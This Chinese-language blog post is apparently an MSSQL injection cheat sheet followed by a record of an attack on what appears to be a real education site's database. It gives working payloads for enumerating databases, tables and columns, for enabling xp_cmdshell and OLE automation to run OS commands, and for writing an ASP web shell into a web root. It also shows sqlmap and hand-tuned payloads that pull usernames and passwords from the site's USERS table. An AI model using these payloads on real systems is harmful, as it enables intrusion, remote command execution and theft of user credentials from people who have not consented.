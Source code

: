 ```yaml
---
layout: post
title: mssql注入备忘录
categories: sql注入
tag: mssql
---
```

> https://xz.aliyun.com/t/248
乌云drops MSSQL注射知识库 v 1.0
>https://github.com/SuperKieran/WooyunDrops

# 这是一个 mssql 注入语句备忘录

## mssql 常规语句

- 当前数据库
  `db_name()`

- 当前用户
  `User_Name()`

- 列出数据库
  `SELECT top 1 Name FROM Master..SysDatabases where name not in ('master')`
  
- 列出表
  `select top 1 name from my_db_name.sys.all_objects where type='U' AND is_ms_shipped=0`

- 列出字段
  `select top 1  CAST(COLUMN_NAME AS NVARCHAR(4000)) from my_db_name.information_schema.columns where TABLE_NAME='my_table_name'`
  `select top 1  CAST(COLUMN_NAME AS NVARCHAR(4000)) from my_db_name.information_schema.columns where TABLE_NAME='my_table_name'and COLUMN_NAME not in('ID')`

- 取数据
  `select top 1 CAST(my_column_name AS NVARCHAR(4000)) from my_db_name..my_table_name`

- 判断表行数
  `SELECT (CHAR(113)+(SELECT ISNULL(CAST(COUNT(*) AS NVARCHAR(4000)),CHAR(32)) FROM my_db_name.dbo.my_table_name)))`

- 判断表字段数
  `select CHAR(113)+(SELECT ISNULL(CAST(COUNT(*) AS NVARCHAR(4000)),CHAR(32)) FROM my_db_name..syscolumns,my_db_name..sysobjects WHERE my_db_name..syscolumns.id=my_db_name..sysobjects.id AND my_db_name..sysobjects.name='my_table_name')`

- hex编码
  `select convert(int,@@version) `
  `xxxx'; dEcLaRe @s vArChAr(8000) sEt @s=0x73656c65637420636f6e7665727428696e742c404076657273696f6e29 eXeC(@s)--`

- xp_cmdshell
  `SELECT count(*) FROM master.dbo.sysobjects WHERE xtype='X' AND name='xp_cmdshell'`
  `1';exec master..xp_cmdshell 'echo "<%@ LANGUAGE=Jscript %>;<%eval(Request("sb"),"unsafe")%>''" >C:\inetpub\wwwroot\congf1g.aspx' --`

## mssql 执行 os shell

### XP_CMDSHELL

- 执行
`exec master..xp_cmdshell "whoami"`

- 开启 xp_cmdshell
`EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE;`
关闭一样,只是将上面的后面的那个"1"改成"0"就可以了。

- xp_cmdshell被删除，尝试恢复
可以尝试上传xplog70.dll进行恢复
`Exec master.dbo.sp_addextendedproc 'xp_cmdshell','D:\\xplog70.dll'`

### SP_OACREATE

当xp_cmdshell 删除以后，可以使用SP_OACreate

- 打开组件
`EXEC sp_configure 'show advanced options', 1;   
RECONFIGURE WITH OVERRIDE;   
EXEC sp_configure 'Ole Automation Procedures', 1;   
RECONFIGURE WITH OVERRIDE;   
EXEC sp_configure 'show advanced options', 0;`

- 执行（此方法无回显）
`declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c whoami >d:\\temp\\1.txt'`



## 偶遇注入,获取columns名时发现长度限制

```
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: KeyWord (GET)
    Type: error-based
    Title: Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)
    Payload: KeyWord=' AND 4938 IN (SELECT (CHAR(113)+CHAR(98)+CHAR(112)+CHAR(118)+CHAR(113)+(SELECT (CASE WHEN (4938=4938) THEN CHAR(49) ELSE CHAR(48) END))+CHAR(113)+CHAR(113)+CHAR(112)+CHAR(113)+CHAR(113)))-- limB

    Type: AND/OR time-based blind
    Title: Microsoft SQL Server/Sybase AND time-based blind (heavy query)
    Payload: KeyWord=' AND 7003=(SELECT COUNT(*) FROM sysusers AS sys1,sysusers AS sys2,sysusers AS sys3,sysusers AS sys4,sysusers AS sys5,sysusers AS sys6,sysusers AS sys7)-- HPLB

```

可以出表名，无法取出具体字段名

![](/styles/images/2019-7/mssqlinject.jpg)
![](/styles/images/2019-7/lenlimit.jpg)

- sqlmap 列字段语句

```
' AND 9249 IN (SELECT (CHAR(113)+CHAR(98)+CHAR(112)+CHAR(118)+CHAR(113)+(SELECT TOP 1 SUBSTRING((ISNULL(CAST(edu_xxxxx..syscolumns.name AS NVARCHAR(4000)),CHAR(32))),1,1024) FROM edu_xxxxx..syscolumns,edu_xxxxx..sysobjects WHERE edu_xxxxx..syscolumns.id=edu_xxxxx..sysobjects.id AND edu_xxxxx..sysobjects.name=CHAR(85)+CHAR(83)+CHAR(69)+CHAR(82)+CHAR(83) AND ISNULL(CAST(edu_xxxxx..syscolumns.name AS NVARCHAR(4000)),CHAR(32)) NOT IN (SELECT TOP 0 ISNULL(CAST(edu_xxxxx..syscolumns.name AS NVARCHAR(4000)),CHAR(32)) FROM edu_xxxxx..syscolumns,edu_xxxxx..sysobjects WHERE edu_xxxxx..syscolumns.id=edu_xxxxx..sysobjects.id AND edu_xxxxx..sysobjects.name=CHAR(85)+CHAR(83)+CHAR(69)+CHAR(82)+CHAR(83) ORDER BY edu_xxxxx..syscolumns.name) ORDER BY edu_xxxxx..syscolumns.name)+CHAR(113)+CHAR(113)+CHAR(112)+CHAR(113)+CHAR(113)))-- vFJB
```

页面报错发现试语句被截断，该点有长度限制。
```
' AND 4938 IN (SELECT '12345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678901')--
```
![](/styles/images/2019-7/limiterr.jpg)

最终发现长度限制为 487 
```
' AND 4938 IN (SELECT '1234567890123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890')--
```
![](/styles/images/2019-7/lenmax.jpg)

## 
sqlmap已跑出数据库名 edu_xxxxx 表名 USERS

- sqlmap跑字段名

  语句过长，无法获取字段。
```
' AND 4664 IN (SELECT (CHAR(113)+CHAR(98)+CHAR(112)+CHAR(118)+CHAR(113)+(SELECT TOP 1 SUBSTRING((ISNULL(CAST(edu_xxxxx..syscolumns.name AS NVARCHAR(4000)),CHAR(32))),1,1024) FROM edu_xxxxx..syscolumns,edu_xxxxx..sysobjects WHERE edu_xxxxx..syscolumns.id=edu_xxxxx..sysobjects.id AND edu_xxxxx..sysobjects.name=CHAR(85)+CHAR(83)+CHAR(69)+CHAR(82)+CHAR(83) AND ISNULL(CAST(edu_xxxxx..syscolumns.name AS NVARCHAR(4000)),CHAR(32)) NOT IN (SELECT TOP 0 ISNULL(CAST(edu_xxxxx..syscolumns.name AS NVARCHAR(4000)),CHAR(32)) FROM edu_xxxxx..syscolumns,edu_xxxxx..sysobjects WHERE edu_xxxxx..syscolumns.id=edu_xxxxx..sysobjects.id AND edu_xxxxx..sysobjects.name=CHAR(85)+CHAR(83)+CHAR(69)+CHAR(82)+CHAR(83) ORDER BY edu_xxxxx..syscolumns.name) ORDER BY edu_xxxxx..syscolumns.name)+CHAR(113)+CHAR(113)+CHAR(112)+CHAR(113)+CHAR(113)))-- gjtG
```

- 手工修改跑出字段名
`' AND 4938 IN (select top 1 COLUMN_NAME  from edu_xxxxx.information_schema.columns where TABLE_NAME='USERS')--`

![](/styles/images/2019-7/columnnames.jpg)
`' AND 4938 IN (select top 1 COLUMN_NAME  from edu_xxxxx.information_schema.columns where TABLE_NAME='USERS'and COLUMN_NAME not in('USER_STATUS','LAST_LOGIN_TIME','USER_GROUP_ID','USER_ID','USER_NM','USER_TYPE','USER_NAME','USER_PWD','USER_PWD_QUT','USER_PWD_ANS','USER_BRI_DATE','USER_SEX','USER_TEL','USER_EMAIL','USER_INTRODUCE','USER_IP','USER_PROXY_IP','REMARK','USER_BUSINESS_NM','OTHER_ID','LOGIN_TIMES','zz_sf','zj','user_worktime'))--`

- 获取数据

  - 手工获取
    `'AND 4938 IN (select top 1 USER_PWD from  edu_xxxxx..USERS)--`

    `'AND 4938 IN (select top 1 USER_NAME from  edu_xxxxx..USERS)--`

  - 已知字段后，sqlmap语句长度小于限制,可直接使用sqlmap
    **sqlmap语句**
    `' AND 8120 IN (SELECT (CHAR(113)+CHAR(98)+CHAR(112)+CHAR(118)+CHAR(113)+(SELECT ISNULL(CAST(COUNT(USER_NAME) AS NVARCHAR(4000)),CHAR(32)) FROM (SELECT USER_NAME, ROW_NUMBER() OVER (ORDER BY (SELECT 1)) AS LIMIT FROM edu_xxxxx.dbo.USERS)x WHERE LIMIT=2)+CHAR(113)+CHAR(113)+CHAR(112)+CHAR(113)+CHAR(113)))-- XSwE`
